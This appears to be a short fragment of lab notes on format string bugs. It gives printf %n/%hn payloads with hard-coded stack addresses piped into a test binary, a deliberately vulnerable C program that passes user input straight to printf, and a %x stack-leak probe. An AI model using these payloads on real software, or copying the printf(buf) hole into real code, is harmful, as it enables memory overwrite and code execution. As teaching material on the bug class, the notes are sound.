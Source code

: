 `(printf "\x41\x41\x41\x41\x78\xfd\xff\xbf%%c%%n"; cat) | ./test6`
`(printf "\x41\x41\x41\x41\x78\xfd\xff\xbf\x41\x41\x41\x41\x7a\xfd\xff\xbf%%64172d%%hn%%50415d%%hn"; cat) | ./test6`

```c
// format_bugfile.c

#include <stdio.h>
main() {
	int i = 0;
	char buf[64];
	memset(buf, 0, 4);
	read(0, buf, 64);
	printf(buf);
}
```

```shell
gcc -o format_bugfile format_bugfile.c
./format_bugfile
AAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
```